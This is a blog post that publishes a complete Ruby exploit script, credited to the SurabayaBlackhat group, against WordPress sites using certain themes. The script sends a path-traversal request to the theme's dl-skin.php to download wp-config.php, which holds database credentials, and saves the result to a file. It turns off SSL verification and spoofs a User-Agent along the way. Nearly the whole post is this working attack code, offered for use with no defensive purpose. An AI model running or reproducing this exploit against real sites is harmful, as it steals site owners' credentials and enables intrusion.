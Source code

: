 ```yaml
---
layout: post
title: "Exploit AFDFDE for Ruby"
date: 2014-08-26 23:17:19 +0700
comments: true
categories: [exploit, ubuntu]
description: Exploit AFDFDE for Ruby
keywords: Exploit AFDFDE for Ruby
---
```


## ruby-AFDFDE
*read this exploit [AFDFDE](https://github.com/SurabayaBlackhat/AFDFDE)*

#### Require
* [ruby](https://www.ruby-lang.org/en/downloads/)
* [rubygems](https://rubygems.org/pages/download) 
* [curb](https://rubygems.org/gems/curb)

#### Credit
* [Vico Ervanda](https://github.com/VicoErvanda)
* [SunDi3yansyah](https://github.com/SunDi3yansyah)
* CaFc Versace
* Meninbox
* All Staff/Member SurabayaBlackhat
<!-- more -->
#### License
[GNU Affero General Public License](http://www.gnu.org/licenses/agpl-3.0.html)

### Souce
{% codeblock ruby-AFDFDE %}
#!/usr/bin/ruby
require 'curb';
require 'fileutils';
require 'uri';

#create
urlInvalid = false;
themeInvalid = false;
themeCollection = ["awake","construct","dejavu",
					"echelon","elegance","fusion",
						"infocus","megastream","method",
							"modular","myriad","oakrealty","persuasion"];
def valid?(url)
	#url validator
  uri = URI.parse(url)
  uri.kind_of?(URI::HTTP)
rescue URI::InvalidURIError
  false
end

#coloring
def colorize(text, color_code)
  "\e[#{color_code}m#{text}\e[0m"
end
#declare the color
def green(text); colorize(text, 32); end
def red(text); colorize(text, 31); end
def yellow(text); colorize(text, 33); end
def blue(text); colorize(text, 34); end
def purple(text); colorize(text, 35); end
def cyan(text); colorize(text, 36); end

#begin step
puts cyan("//github.com/kampoeng/ruby-AFDFDE") + "    : " + red("ruby-AFDFDE Repository")
puts cyan("//github.com/SurabayaBlackhat/AFDFDE") + " : " + red("Exploit on Github SBH")
puts cyan("//fb.com/freeeaks") + "                    : " + purple("Vico Ervanda");
puts cyan("//fb.com/SunDi3yansyah") + "                : " + purple("SunDi3yansyah");
puts cyan("//fb.com/100004896060156") + "             : " + purple("CaFc Versace");
puts cyan("//kampoeng.co.id") + "                     : " + green("Kampoeng Network") + "\n\n";
puts green("Theme ID : ");
for i in 0..12
	puts purple(i.to_s) + " : " + yellow(themeCollection[i]);
end
puts "\n";
begin
	#trying to get a valid url
	if urlInvalid == false
		puts green("Tolong masukan url yang valid");
	else
		puts red("url tidak valid");
	end
	urlName = gets.gsub("\n","");
	if(valid?(urlName) === true)
		isUrlValid = 0;
	end;
	urlInvalid=true;
end while isUrlValid != 0;
#url now valid, tell the user
puts yellow("Situs yang vulnerable adalah : ") + cyan(urlName);
begin
	#trying to get theme identifier
	if themeInvalid == false
		puts green("Tolong masukan tema yang digunakan");
		
	else
		puts red("tema tidak valid");
	end
	themeName = gets.gsub("\n","");
	if themeName.scan(/([^0-9]+)/).count == 0 and themeName != ""
		if themeName.to_i < 13 and themeName.to_i > -1
			isThemeValid = 0;
		end
	end
	themeInvalid = true;
end while isThemeValid != 0;
#ok theme is valid, tell the user
puts yellow("Tema yang terpilih adalah : ") + cyan(themeCollection[themeName.to_i]);

#download the content using post method
c = Curl.post( urlName + "/wp-content/themes/"+themeCollection[themeName.to_i] + "/lib/scripts/dl-skin.php",{
						'_mysite_download_skin' => '../../../../../wp-config.php'
						}) do |curl|
		curl.ssl_verify_peer = false
		curl.headers["User-Agent"] = "BlackBerry/3.5.0"
	end
#assign the result
text = c.body_str;

#tell the user, what title we use for write to file
begin 
	puts green("Please specify a file name (a-zA-Z0-9)");
	fileName = gets.gsub("\n","");
	isFileNameValid = fileName.scan(/([^a-zA-Z0-9]+)/).length;
end while isFileNameValid != 0
#title ok tell the user
puts yellow("Judul file yang terpilih adalah : ") + cyan(fileName);

			f = File.open(fileName + ".txt", 'w')
			f.write(text)
			f.close
			puts fileName + ".txt - " + green("Downloaded")
#end step
{% endcodeblock %}

### [View Project on Github](https://github.com/kampoeng/ruby-AFDFDE)

<div class="github-widget" data-repo="kampoeng/ruby-AFDFDE"></div>